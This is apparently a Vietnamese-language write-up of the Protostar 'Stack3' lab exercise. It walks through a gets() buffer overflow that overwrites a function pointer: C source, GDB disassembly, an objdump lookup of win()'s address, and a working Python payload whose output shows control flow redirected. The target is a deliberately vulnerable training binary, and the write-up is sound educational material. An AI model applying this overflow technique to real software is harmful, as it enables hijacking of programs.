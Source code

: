 ## Stack3
- Lần này goal vẫn là overwrite biến nhưng mà ta sẽ phải overwrite đến một địa chỉ của một hàm để thay đổi execution flow của chương trình làm cho nó chạy hàm `win`, biến cần ghi đè là `fp`, sử dụng hàm `gets`:
![](https://i.imgur.com/QZJWbCx.png)
- Source code C:
```c 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
- GDB `disass`:
```
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave  
0x08048478 <main+64>:   ret    
```
- Xác định nhanh được 2 biến `fp` và `modified` có offset là 64 bit:
```
(gdb) p ($esp+0x1c) - ($esp+0x5c)
$12 = -64
```
- Vẫn là padding 64 bytes chữ A, rồi tiếp theo là 4 bytes địa chỉ thì ta sẽ ghi đè được `fp`, nhưng vấn đề là ta tìm địa chỉ của hàm `win`. Hẳn là sẽ có debug symbol đầy đủ, lệnh `objdump -S ./stack3` sẽ giúp ta tìm địa chỉ của các lệnh assembly trong các hàm tương ứng, trong đó có hàm `win`:
```asm
user@protostar:/opt/protostar/bin$ objdump -S ./stack3
...
08048424 <win>:
 8048424:       55                      push   %ebp
 8048425:       89 e5                   mov    %esp,%ebp
 8048427:       83 ec 18                sub    $0x18,%esp
 804842a:       c7 04 24 40 85 04 08    movl   $0x8048540,(%esp)
 8048431:       e8 2a ff ff ff          call   8048360 <puts@plt>
 8048436:       c9                      leave  
 8048437:       c3                      ret    

...
```
- Vậy địa chỉ bắt đầu asm của hàm `win` là `0x08048424`, ok mảnh ghép cuối đã tìm thấy, craft payload:
```python 
user@protostar:/opt/protostar/bin$ python -c 'print "A"*64 + "\x24\x84\x04\x08"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$�
user@protostar:/opt/protostar/bin$ python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

